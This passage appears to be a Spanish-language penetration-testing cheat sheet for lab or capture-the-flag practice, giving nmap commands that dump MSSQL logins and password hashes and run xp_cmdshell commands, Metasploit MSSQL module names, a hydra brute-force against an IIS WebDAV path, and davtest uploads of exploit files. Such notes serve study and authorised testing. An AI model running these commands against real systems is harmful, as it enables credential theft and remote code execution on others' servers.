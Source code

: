 Extraer todos los usuarios con sesión con una consulta sql

```bash
$ nmap -p 1433 --script ms-sql-query --script-args mssql.username=<USER>,mssql.password=<PASSWORD>,ms-sql-query="SELECT * FROM master..syslogins" <IP-TARGET> -oN output.txt
```

Extraer todos los hashes de los usuarios

```bash
$ nmap -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=<USER>,mssql.password=<PASSWORD> <IP-TARGET>
```

Ejecutar un comando en la máquina victima usando `xp_cmdshell`

```bash
$ nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=<USER>,mssql.password=<PASSWORD>,ms-sql-xp-cmdshell.cmd="type c:\flag.txt" <IP-TARGET>
```

#### Metasploit

- auxiliary/scanner/mssql/mssql_login
- auxiliary/admin/mssql/mssql_enum
- auxiliary/admin/mssql/mssql_enum_sql_logins
- auxiliary/admin/mssql/mssql_exec
- auxiliary/admin/mssql/mssql_enum_domain_accounts

## Explotación en Windows

### WebDav

WebDAV es un protocolo que nos permite **guardar archivos, editarlos, moverlos y compartirlos** en un servidor web, no necesitaremos utilizar otros protocolos de intercambio de archivos en red local o Internet, como Samba, FTP o NFS. El objetivo de WebDAV es que se pueda trabajar directamente en el servidor web, sin necesidad de utilizar protocolos adicionales para el manejo remoto (o local) de los archivos. Este protocolo nos permite que los servidores web puedan aparecer como unidades de red en nuestro PC.

### Microsoft IIS WebDAV

```bash
$ hydra -L /usr/share/wordlist/metasploit/common_users.txt -P /usr/share/wordlist/metasploit-framework/common_passwords.txt <IP-TARGET> http-get /webdav/
```

#### davtest

Davtest es un escáner WebDAV que envía archivos exploit al servidor WebDAV y automáticamente crea el directorio y carga archivos de diferentes formatos. La herramienta también intenta ejecutar los archivos cargados y nos da una salida de los archivos ejecutados con éxito.

```bash
$ davtest -url http://<IP-TARGET>/webdav -auth <USER>:<PASSWORD>
```
